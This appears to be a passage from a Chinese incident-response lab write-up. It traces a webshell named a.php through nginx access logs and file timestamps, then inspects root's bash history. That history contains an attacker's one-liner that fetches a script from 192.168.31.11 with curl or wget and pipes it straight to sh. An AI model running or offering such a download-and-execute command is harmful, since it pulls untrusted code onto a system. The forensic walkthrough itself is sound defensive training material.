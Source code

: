 ## 应急响应1-1

登录`webserver`，在`/var/www/html`，找到`a.php`

查看`nginx`的日志,`/var/log/nginx`

```php
192.168.31.240 - - [02/May/2025:00:10:10 -0700] "POST /a.php HTTP/1.1" 200 114 "-" "Opera/9.80 (Windows NT 6.1; WOW64; U; pt) Presto/2.10.229 Version/11.62"
192.168.31.240 - - [02/May/2025:00:10:28 -0700] "POST /a.php HTTP/1.1" 200 168 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; fr-FR) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27"
```

攻击ip地址1为：

```
192.168.31.240
```

```sh
root@ubuntu:/var/www/html# stat a.php 
  File: 'a.php'
  Size: 62        	Blocks: 8          IO Block: 4096   regular file
Device: 801h/2049d	Inode: 153285      Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2025-05-16 18:04:31.537138360 -0700
Modify: 2025-05-01 21:09:51.615011437 -0700
Change: 2025-05-01 21:09:51.615011437 -0700
 Birth: -
```

## 应急响应1-2

`webserver`切换到`root`用户，查看历史命令记录`.bash_history`

root用户的命令日志

![image-20250517094940504](./img/image-20250517094940504.png)

```sh
(curl -fsSL -m180 http://192.168.31.11:8084/slt||wget -T180 -q http://192.168.31.11:8084/slt)|sh
```
